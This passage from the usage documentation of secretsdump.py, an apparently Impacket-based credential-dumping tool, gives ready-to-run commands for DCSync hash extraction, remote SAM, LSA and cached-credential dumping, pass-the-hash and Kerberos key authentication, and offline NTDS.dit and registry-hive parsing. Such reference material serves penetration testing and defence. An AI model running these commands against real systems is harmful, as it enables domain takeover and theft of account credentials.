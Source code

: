 ```
  -user-status          Show user account status
  -history              Include password history
  -resumefile           Resume from previous extraction
  -outputfile           Output file for results
```

## Usage Examples

### Domain Controller Hash Extraction (DCSync)
```bash
# Extract all domain hashes using DCSync
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Extract specific user with DCSync
python3 secretsdump.py domain.com/user:password@dc.domain.com -just-dc-user administrator

# Extract only NTLM hashes
python3 secretsdump.py domain.com/user:password@dc.domain.com -just-dc-ntlm
```

### Workstation/Server Hash Extraction
```bash
# Extract local SAM, LSA secrets, and cached credentials
python3 secretsdump.py domain.com/user:password@target.domain.com

# Use VSS method for extraction
python3 secretsdump.py domain.com/user:password@target.domain.com -use-vss

# Specify execution method
python3 secretsdump.py domain.com/user:password@target.domain.com -exec-method wmiexec
```

### Using Hash Authentication
```bash
# Use NTLM hash for authentication
python3 secretsdump.py -hashes :ntlmhash domain.com/user@target.domain.com

# Use AES key for Kerberos authentication
python3 secretsdump.py -aesKey aeskey domain.com/user@target.domain.com -k
```

### Local File Analysis
```bash
# Analyze local registry hives
python3 secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL

# Analyze NTDS.dit with SYSTEM hive
python3 secretsdump.py -ntds ntds.dit -system system.hive LOCAL

# Use bootkey for decryption
python3 secretsdump.py -sam sam.hive -system system.hive -bootkey 0x1234567890abcdef LOCAL
```
